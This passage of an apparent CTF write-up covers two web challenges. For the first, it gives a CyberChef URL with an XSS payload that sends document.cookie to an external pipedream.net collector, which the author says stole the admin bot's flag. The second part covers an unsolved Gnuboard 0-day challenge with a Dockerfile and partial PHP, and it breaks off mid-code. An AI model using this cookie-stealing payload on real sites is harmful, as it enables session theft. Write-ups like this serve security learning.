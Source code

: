 
```plaintext
http://cyberchef:8000/#recipe=Scatter_ch%00art('Line%20feed','Space',false,'','','red"><script>fetch("https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/".concat(document.cookie))</script>',100,false)&input=MTAwLCAxMDA
```
So I was able to get the flag by sending the above PoC to the admin bot.

```plaintext
FLAG : hsctf{be9e5b8bce203e203597dca3d67e0f7a38e359a9ab7799988e888be073c78da0}
```

---
## (Web/Not Solve) Gnuboard [498 pts]

The Gnuboard challenge is to solve it using 0-Day. This challenge was so difficult that I couldn't solve it while the competition was in progress, and after the competition I asked [as3617](https://blog.ssrf.kr/).

```docker
FROM ubuntu:20.04
ARG DEBIAN_FRONTEND=noninteractive

RUN apt-get update
RUN apt-get install -y wget curl apache2 git php-gd php-mysql php

RUN git clone https://github.com/gnuboard/gnuboard5 /tmp/gnuboard
RUN cp -r /tmp/gnuboard/* /var/www/html
RUN sed -i 's/AllowOverride None/AllowOverride All/g' /etc/apache2/apache2.conf

WORKDIR /var/www/html

RUN mkdir data
RUN chmod 777 data
RUN rm -rf index.html /tmp/gnuboard

RUN echo '$flag = "hsctf{flag_will_be_here}";' >> /var/www/html/common.php

ADD entrypoint.sh /
CMD /entrypoint.sh
```
I could see in the docker file that the latest version of Gnuboard 5 was being used, and the flag was defined as a variable called $flag in `common.php`. So, after a long time, I started to analyze GnuBoard and found the SQL Injection vector, but it might not work well, and even if SQL Injection occurs, I don't think I can do anything using it. So I had to give up.


```plaintext
Hint : Gnuboard, It really has too many functions to be a just "board". It seems the way how they implement the payment is meh.
```
Hayyim Security provided a hint because there was no solver for the challenge. Hint mentioned the payment part.

```php
include_once('./_common.php');

// (Skip..)

try {

    //#############################
    // 인증결과 파라미터 일괄 수신
    //#############################
    //      $var = $_REQUEST["data"];

    //#####################
    // 인증이 성공일 경우만
```